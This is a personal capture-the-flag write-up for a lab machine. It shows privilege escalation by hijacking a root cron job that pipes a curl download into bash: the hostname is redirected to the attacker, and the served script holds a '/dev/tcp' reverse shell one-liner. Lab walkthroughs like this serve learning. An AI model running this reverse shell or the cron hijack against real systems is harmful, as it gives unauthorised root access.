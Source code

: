 ![[Pasted image 20240710162308.png]]

Now we will re-run linpeas and see if we can get root. I'm mostly running linpeas  so i can get used to it's output. 

Some enum:

![[Pasted image 20240710163625.png]]

We upload pspy32s and perfor a scan:

![[Pasted image 20240710165758.png]]

I notice that a script is calling back and we can use that with the hosts file to possibly call back to my machine to get root. 

```output
2024/07/10 12:00:01 CMD: UID=0     PID=17857  | bash 
2024/07/10 12:00:01 CMD: UID=0     PID=17856  | curl mkingdom.thm:85/app/castle/application/counter.sh 
2024/07/10 12:00:01 CMD: UID=0     PID=17855  | CRON 
2024/07/10 12:00:01 CMD: UID=0     PID=17854  | /bin/sh -c curl mkingdom.thm:85/app/castle/application/counter.sh | bash >> /var/log/up.log
```

A request is made to mkingdom.thm and then the file is executed. How can we exploit this though?

Well.. we can start by redirecting mkingdom.thm to our VPN IP, making a bash script to spawn us with a shell and then waiting for the automatic job to run and execute our script! We start by making our bash script:

![](https://powerctf.gitbook.io/~gitbook/image?url=https%3A%2F%2F2709942180-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-x-prod.appspot.com%2Fo%2Fspaces%252Fs2fs2IrGlfFCh93yzj4Y%252Fuploads%252FfCVI4fM6Tj6cWWQTfeiE%252Fimage.png%3Falt%3Dmedia%26token%3D867027fe-9be3-45f4-ad31-e34c75570125&width=768&dpr=4&quality=100&sign=836fc67c&sv=1)

```bash
bash -c "bash -i >& /dev/tcp/10.9.0.241:8888 0>&1"
```

We'll then need to create the necessary directories for the script to find the file it's searching for.

![[Pasted image 20240710170635.png]]

Had to fix the terminal with:

```bash
export TERM=xterm
```

I setup the servers:

![[Pasted image 20240710172251.png]]

I got a 404 so i've tried to move back out of the app directory which worked. I also noticed i had forgot the bin/bash tag on my script.

Small error in script, changed : for a / in the address. Now we get root:

![[Pasted image 20240711044125.png]]

